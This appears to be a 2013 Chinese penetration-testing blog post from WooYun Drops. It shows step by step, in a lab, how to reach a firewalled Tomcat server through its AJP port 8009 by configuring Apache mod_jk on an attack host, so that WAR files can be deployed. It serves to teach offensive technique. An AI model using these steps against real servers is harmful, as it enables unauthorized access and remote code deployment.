




# Tomcat 的 8009 端口 AJP 的利用

2013/11/15 12:28 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

Tomcat 在安装的时候会有下面的界面，我们通常部署 war，用的最多的是默认的 8080 端口。

可是当 8080 端口被防火墙封闭的时候，是否还有办法利用呢？

答案是可以的，可以通过 AJP 的 8009 端口，下面是 step by step。



下面是实验环境：

```
192.168.0.102   装有 Tomcat 7 的虚拟主机，防火墙封闭 8080 端口 
192.168.0.103   装有 BT5 系统的渗透主机 
```

首先 nmap 扫描，发现 8009 端口开放



BT5 默认 apache2 是安装的，我们仅需要安装 mod-jk

```
root@mickey:~# apt-get install libapache2-mod-jk 

```

jk.conf 的配置文件如下：

```
root@mickey:/etc/apache2/mods-available# cat jk.conf  

# Update this path to match your conf directory location 

JkWorkersFile /etc/apache2/jk_workers.properties 

# Where to put jk logs 

# Update this path to match your logs directory location 

JkLogFile /var/log/apache2/mod_jk.log 

# Set the jk log level [debug/error/info] 

JkLogLevel info 

# Select the log format 

JkLogStampFormat "[%a %b %d %H:%M:%S %Y]" 

# JkOptions indicate to send SSL KEY SIZE, 

JkOptions +ForwardKeySize +ForwardURICompat -ForwardDirectories 

# JkRequestLogFormat set the request format 

JkRequestLogFormat "%w %V %T" 

# Shm log file 

JkShmFile /var/log/apache2/jk-runtime-status

```

jk.conf 软连接到/etc/apache2/mods-enabled/目录

```
ln -s /etc/apache2/mods-available/jk.conf /etc/apache2/mods-enabled/jk.conf

```

配置 jk_workers.properties

```
root@mickey:/etc/apache2# cat jk_workers.properties  

worker.list=ajp13 

# Set properties for worker named ajp13 to use ajp13 protocol, 

# and run on port 8009 

worker.ajp13.type=ajp13 

worker.ajp13.host=192.168.0.102       <\---|这里是要目标主机的 IP 地址 

worker.ajp13.port=8009 

worker.ajp13.lbfactor=50 

worker.ajp13.cachesize=10 

worker.ajp13.cache_timeout=600 

worker.ajp13.socket_keepalive=1 

worker.ajp13.socket_timeout=300 

```

默认站点的配置



重启 apache

```
sudo a2enmod proxy_ajp 

sudo a2enmod proxy_http 

sudo /etc/init.d/apache2 restart 

```

现在 apache 的 mod_jk 模块就配置好了，访问 192.168.0.103 的 80 端口，就被重定向到 192.168.0.102 的 8009 端口了，然后就可以部署 war 了。



对渗透有兴趣的朋友，加我多交流 ：）

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [探秘伪基站产业链](http://drops.wooyun.org/tips/771)
*   [GSM Hackeing 之 SMS Sniffer 学习](http://drops.wooyun.org/tips/723)
*   [如何用意念获取附近美女的手机号码](http://drops.wooyun.org/tips/573)
*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [显示每个 CPU 的 IDT 信息](http://drops.wooyun.org/tips/4854)
*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)